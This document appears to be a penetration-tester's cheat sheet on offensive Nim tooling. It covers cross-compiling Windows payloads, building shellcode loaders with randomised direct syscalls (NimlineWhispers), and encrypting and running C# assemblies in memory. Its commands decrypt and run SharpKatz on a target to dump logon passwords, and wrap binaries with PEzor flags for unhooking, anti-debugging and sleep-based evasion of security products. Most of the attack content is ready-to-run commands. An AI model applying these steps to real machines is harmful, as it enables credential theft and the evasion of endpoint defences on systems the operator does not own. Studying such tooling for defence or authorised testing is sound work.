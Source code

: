 # Nim

* [https://github.com/byt3bl33d3r/OffensiveNim#why-nim](https://github.com/byt3bl33d3r/OffensiveNim#why-nim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)




## Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ sudo apt install nim -y
Or
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

Dependencies:

```
Nim > nimble install winim nimcrypto zippy
```




## Compilation

Basic:

```
Nim > nim c program.nim
```

To not popup the Nim binaries console window:

```
Nim > nim c --app:gui program.nim
```

For the best size:

```
Nim > nim c -d:danger -d:strip --opt:size --passC=-flto --passL=-flto program.nim
```

For Windows on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```




## Inject Shellcode



### NimlineWhispers

* [https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/](https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/)
* [https://github.com/ajpc500/NimlineWhispers](https://github.com/ajpc500/NimlineWhispers)
* [https://github.com/snovvcrash/NimlineWhispers](https://github.com/snovvcrash/NimlineWhispers)

1. Generate a nim header with syscalls definitions (function names randomized): `python3 NimlineWhispers.py --randomise`.
2. Repair the [*shellcode_bin.nim*](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/shellcode_bin.nim) template to fit new function names.
3. Generate a shellcode of your choice, put it into the template and compile the binary: `nim c -d=mingw --app=console --cpu=amd64 shellcode_bin.nim`.




## Execute C# Assemblies

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim)

Compile on Linux:

```
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_assembly_loader.nim
```

Create encrypted base64 file:

```
$ ./encrypt_assembly 'Passw0rd!' SharpKatz.exe b64.txt
```

Decrypt and run it on target:

```
Cmd > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```



### Chaining with PEzor

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)
* [https://github.com/phra/PEzor](https://github.com/phra/PEzor)

Convert a C# assembly to Nim array with a helper [script](https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1):

```
$ pwsh -exec bypass
PS > . ./CSharpToNimByteArray.ps1
PS > CSharpToNimByteArray -inputfile csharp.exe
```

Compile the executable and wrap it into PEzor:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto execute_assembly_bin.nim
$ bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 execute_assembly_bin.exe -z 2
```
